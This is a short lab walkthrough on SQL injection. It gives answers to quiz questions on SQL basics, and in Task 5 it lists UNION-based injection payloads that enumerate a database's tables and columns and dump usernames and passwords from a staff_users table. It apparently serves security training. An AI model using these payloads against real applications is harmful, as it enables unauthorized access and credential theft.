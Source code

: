 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

### `Task 1: Brief`
#### - What does SQL stand for?
	- Structured Query Language
	
### `Task 2: What is a Database?`
#### - What is the acronym for the software that controls a database?
	- DBMS
	
#### - What is the name of the grid-like structure which holds the data?
	- Table
	
### `Task 3: What is SQL?`
#### - What SQL statement is used to retrieve data?
	- SELECT
	
#### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
	
#### - What SQL statement is used to add data?
	- INSERT

### `Task 4: What is SQL Injection?`
#### - What character signifies the end of an SQL query?
	- ;

### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
- This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
- This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
- This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
- This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will find the username and password, then you can proceed inputting it in the login form.


